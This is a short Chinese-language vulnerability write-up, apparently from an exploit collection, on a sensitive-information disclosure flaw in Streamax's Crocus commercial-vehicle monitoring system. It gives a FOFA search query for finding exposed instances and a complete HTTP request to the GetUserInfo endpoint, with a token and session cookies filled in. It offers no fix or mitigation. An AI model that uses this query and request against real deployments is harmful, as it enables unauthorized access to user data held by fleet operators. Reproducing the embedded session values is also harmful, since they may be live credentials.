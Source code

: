 # 深圳市锐明技术股份有限公司Crocus系统存在敏感信息泄露漏洞

# 一、漏洞简介
锐明技术作为一家专注于AI和视频技术的商用车智能物联（AIoT）解决方案提供商，Crocus系统是其核心产品之一。Crocus系统旨在利用人工智能、高清视频、大数据和自动驾驶技术，帮助商用车减少交通事故和货物丢失，提高企业或车队的运营效率。通过车载摄像头、毫米波雷达等传感器，实现对车辆周围环境的实时感知和监控，提高驾驶安全性。利用AI技术，系统能够识别车辆和行人的身份，并分析驾驶员的驾驶行为，及时提醒驾驶员注意潜在风险。Crocus系统能够实时监控货箱状态，包括货物是否丢失、货箱是否关闭等，并通过3D检测技术实现更精准的货物识别和管理。深圳市锐明技术股份有限公司Crocus系统存在敏感信息泄露漏洞

# 二、影响版本
+ Crocus系统

# 三、资产测绘
+ fofa`body="/ThirdResource/respond/respond.min.js" && title="Crocus"`
+ 特征

![1720274332352-c9c6a280-a643-4bac-95f0-0f7942a72149.png](./img/UYZbMZVovOGNg0S7/1720274332352-c9c6a280-a643-4bac-95f0-0f7942a72149-943722.png)

# 四、漏洞复现
```http
GET /Home.do?Action=GetUserInfo&Type=Get&Guid=1724206435273 HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Token: d2JzczoxNzI0MjA2NDIwNzU2
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=234DBD0F52D9D798CB9931DEDA75131A; Saffron.U=VUlEPTEmVU49Y3JvY3VzJkdJRD0xNzI0MjA3NDQ5NTI2ODYmUklEPTEmTT1CTWFwJklOUz0x
X-Requested-With: XMLHttpRequest
```

![1725460117888-1de7a21d-cdd9-49fc-99de-2248636c77d1.png](./img/UYZbMZVovOGNg0S7/1725460117888-1de7a21d-cdd9-49fc-99de-2248636c77d1-789831.png)



> 更新: 2024-09-06 02:24:31  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lr4dgs05xzsvh5l3>